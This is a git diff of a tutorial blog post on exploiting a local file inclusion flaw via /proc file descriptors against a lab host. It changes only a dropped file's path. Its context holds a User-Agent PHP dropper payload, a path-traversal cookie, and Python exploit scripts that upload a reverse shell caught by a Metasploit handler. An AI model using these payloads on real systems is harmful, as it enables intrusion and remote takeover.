

config

Changed region(s): [[0.3074, 0.124, 0.4611, 0.186]]

diff --git a/_posts/2018-08-15-Exploiting-the-LFI-vulnerability-using-the-proc-self-directory.md b/_posts/2018-08-15-Exploiting-the-LFI-vulnerability-using-the-proc-self-directory.md
@@ -211,7 +211,7 @@ pid="6642"
 
 url = "http://"+target+"/listings.php"
 
-headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "<?$com=base64_decode($_GET['cmd']);$file=fopen('./data/yo.php','w'); fwrite($file,$com);fclose($file);phpinfo();?>", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "Cookie": "PHPSESSID="+PHPSESSID+"; user=../../../../../proc/"+pid+"/fd/9%00", "Connection": "close"}
+headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "<?$com=base64_decode($_GET['cmd']);$file=fopen('./comments/yo.php','w'); fwrite($file,$com);fclose($file);phpinfo();?>", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "Cookie": "PHPSESSID="+PHPSESSID+"; user=../../../../../proc/"+pid+"/fd/9%00", "Connection": "close"}
 
 for i in range (10):
 	response = requests.get(url, headers=headers)
@@ -304,7 +304,7 @@ As we look closely at the response above, we can realize that the <b>/proc/6642/
 
 ```php
 <?php $data=base64_decode($_GET['cmd']);
-$file=fopen('./data/yolo.php','w');
+$file=fopen('./comments/yolo.php','w');
 fwrite($file,$data);fclose($file);phpinfo();?>
 ``` 
 
@@ -370,7 +370,7 @@ IG1vcmUgZGVidWdnaW5nIGluZm86JztwcmludF9yKCRfRklMRVMpO3ByaW50ICI8L3ByZT4iOz8%2B H
 Host: 192.168.201.3
 Cache-Control: max-age=0
 Upgrade-Insecure-Requests: 1
-User-Agent: <?php $data=base64_decode($_GET['cmd']);$file=fopen('./data/yolo.php','w');fwrite($file,$data);fclose($file);phpinfo();?>
+User-Agent: <?php $data=base64_decode($_GET['cmd']);$file=fopen('./comments/yolo.php','w');fwrite($file,$data);fclose($file);phpinfo();?>
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
 Accept-Encoding: gzip, deflate
 Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
@@ -415,7 +415,7 @@ fWVsc2Uge2VjaG8gIlVwbG9hZCBmYWlsZWQiO31lY2hvICI8L3A%2BIjtlY2hvICc8cHJlPic7ZWNob
[1 lines of base64/hex data omitted]
 ICI8L3ByZT4iOz8%2B HTTP/1.1" 200 781 "-" "&lt;!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
 [......]
-HTTP_USER_AGENT &lt;/td>&lt;td class="v">&lt;?php $data=base64_decode($_GET[&#039;cmd&#039;]);$file=fopen(&#039;./data/yolo.php&#039;,&#039;w&#039;);fwrite($file,$data);fclose($file);phpinfo();?&gt; &lt;/td>&lt;/tr>
+HTTP_USER_AGENT &lt;/td>&lt;td class="v">&lt;?php $data=base64_decode($_GET[&#039;cmd&#039;]);$file=fopen(&#039;./comments/yolo.php&#039;,&#039;w&#039;);fwrite($file,$data);fclose($file);phpinfo();?&gt; &lt;/td>&lt;/tr>
 [.......]
 </pre>
 
@@ -423,7 +423,7 @@ HTTP_USER_AGENT &lt;/td>&lt;td class="v">&lt;?php $data=base64_decode($_GET[&#03
 Then we can execute the file uploader using the following URL 
 </p>
 
-<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">http://192.168.201.3/data/yolo.php</pre>
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">http://192.168.201.3/comments/yolo.php</pre>
 
 <p style="text-align:justify;">
 the following screenshot shows the file uploader
@@ -558,7 +558,7 @@ yAnSGVyZSBpcyBzb21lIG1vcmUgZGVidWdnaW5nIGluZm86JztwcmludF9yKCRfRklMRVMpO3ByaW50 
 ICI8L3ByZT4iOz8%2B"
 
 burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": \
-    "<?$com=base64_decode($_GET['cmd']);$file=fopen('./data/yo.php','w'); fwrite($file,$com); \
+    "<?$com=base64_decode($_GET['cmd']);$file=fopen('./comments/yo.php','w'); fwrite($file,$com); \
     fclose($file);phpinfo();?>", "Accept": "text/html,application/xhtml+xml,application/xml; \
         q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange; \
         v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", \
@@ -599,7 +599,7 @@ s = requests.Session()
 files = {'userfile': open('rev.php', 'rb')}
 
 
-req = s.post("http://"+target+"/data/yolo.php", headers=headers, data=m)
+req = s.post("http://"+target+"/comments/yolo.php", headers=headers, data=m)
 
 os.system('msfconsole -q -x "use exploit/multi/handler; set lhost 192.168.201.7; set lport 443; exploit -z -j;"')
 ```
